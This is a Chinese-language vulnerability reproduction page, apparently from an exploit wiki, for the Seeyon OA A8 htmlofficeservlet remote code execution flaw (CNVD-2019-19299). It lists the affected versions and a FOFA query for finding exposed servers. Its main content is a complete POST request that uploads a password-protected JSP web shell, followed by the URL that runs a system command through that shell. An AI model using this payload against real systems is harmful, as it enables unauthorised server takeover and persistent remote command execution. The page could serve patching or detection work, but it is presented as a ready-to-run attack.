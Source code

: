 # 致远 OA A8 htmlofficeservlet RCE漏洞 CNVD-2019-19299

## 漏洞描述

该漏洞最早于6月26号左右，有安全厂商发出漏洞预警。

远程攻击者在无需登录的情况下可通过向 URL /seeyon/htmlofficeservlet POST 精心构造的数据即可向目标服务器写入任意文件，写入成功后可执行任意系统命令进而控制目标服务器。

## FOFA

> [!NOTE]
>
> title="致远A8-V5协同管理软件 V6.1sp1"

## 影响版本

> [!NOTE]
>
> 致远A8-V5协同管理软件V6.1sp1
>
> 致远A8+协同管理软件V7.0、V7.0sp1、V7.0sp2、V7.0sp3
>
> 致远A8+协同管理软件V7.1

## 漏洞复现

访问目标站点 http://xxx.xxx.xxx.xxx:8088/seeyon/htmlofficeservlet

出现如下图响应，则可能含有漏洞

![](http://wikioss.peiqi.tech/vuln/zhiyuan-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

使用POST请求发出如下请求包

```
DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV
OPTION=S3WYOSWLBSGr
currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
CREATEDATE=wUghPB3szB3Xwg66
RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
originalFileId=wV66
originalCreateDate=wUghPB3szB3Xwg66
FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
needReadFile=yRWZdAS6
originalCreateDate=wLSGP4oEzLKAz4=iz=66
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("calsee".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>>a6e4f045d4b8506bf492ada7e3390d7ce
```

![](http://wikioss.peiqi.tech/vuln/zhiyuan-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

出现如图响应则为上传成功

访问 http://xxx.xxx.xxx.xxx:8088/seeyon/testtesta.jsp?pwd=calsee&cmd=cmd+/c+dir

![](http://wikioss.peiqi.tech/vuln/zhiyuan-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞利用POC

Goby中含有漏洞检测POC

![](http://wikioss.peiqi.tech/vuln/zhiyuan-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)